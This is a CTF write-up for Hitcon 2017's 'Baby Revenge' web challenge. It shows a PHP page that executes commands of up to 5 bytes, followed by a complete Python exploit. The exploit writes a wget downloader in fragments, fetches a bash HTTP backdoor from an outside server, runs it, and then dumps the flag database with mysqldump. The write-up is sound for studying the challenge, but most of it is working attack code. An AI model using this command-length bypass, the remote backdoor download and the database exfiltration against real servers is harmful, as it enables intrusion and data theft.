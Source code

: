 ```yaml
---
layout: post
title: Hitcon CTF 2017 - Baby Revenge
categories: ctf_hitcon2017
keywords: "web"
comments: true
authors:
    - andreafioraldi
---
```




The page's code is:

```php
<?php
    $sandbox = '/home/andrea/Desktop/fff/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
	highlight_file(__FILE__);
```

You can execute a shell command but you have only 5 bytes.

My idea is to use the 'ls' output to write in a file and execute it.

The target file is '\\' so it does not affect the shell script semantics.

The procedure is:
* create a file
* redirect ls output to '\\'
* remove the file.

I want to write 'wget myserver.com' in this way, and after execute it.

In myserver i have a bash http backdoor, so after downloading it i want to execute it.

```python
import requests
import progressbar

#obfuscated code using ls (max 5 byte each command)
#'wget tuly.pythonanywhere.com; sh index.html'
code = """
>IFS\
ls>>\
rm I*
>=:
ls>>\
rm =:
>a=\
ls>>\
rm a*
>wg\
ls>>\
rm w*
>et:\
ls>>\
rm e*
>tul\
ls>>\
rm t*
>y.\
ls>>\
rm y*
>pyt\
ls>>\
rm p*
>hon\
ls>>\
rm h*
>any\
ls>>\
rm a*
>whe\
ls>>\
rm w*
>re.\
ls>>\
rm r*
>com
ls>>\
rm c*
>b=\
ls>>\
rm b*
>mv:\
ls>>\
rm m*
>ind\
ls>>\
rm i*
>ex.\
ls>>\
rm e*
>ht\
ls>>\
rm h*
>ml:\
ls>>\
rm m*
>p
ls>>\
rm p*
>\$a
>\$b
ls>>\
"""

url = "http://52.199.204.34/"

lines = code.split("\n")

print "Writing downloader..."
with progressbar.ProgressBar(max_value=len(lines)) as bar:
    for i in xrange(len(lines)):
        l = lines[i].rstrip()
        if l == "":
            continue
        requests.get(url + "?cmd=" + l)
        bar.update(i)

print "Executing downloader..."
requests.get(url + "?cmd=sh \\")

print "Executing backdoor..."
requests.get(url + "?cmd=sh p")
```

In the home directory of the system we found that the flag is in the MySQL db 

Having a polling backdoor we needed to use one command to exfiltrate the flag from the DB, so we used something like this:
`mysqldump -u user -p'password' flagdb`
Now, there was some issues we faced:
* A lock made our dump query fail
* The database contained chinese characters that as well made our dump query fail
With this in mind we rewrote our query to something like this
`mysqldump -u user -p'password' flagdb --single-transaction --compatible-charset`
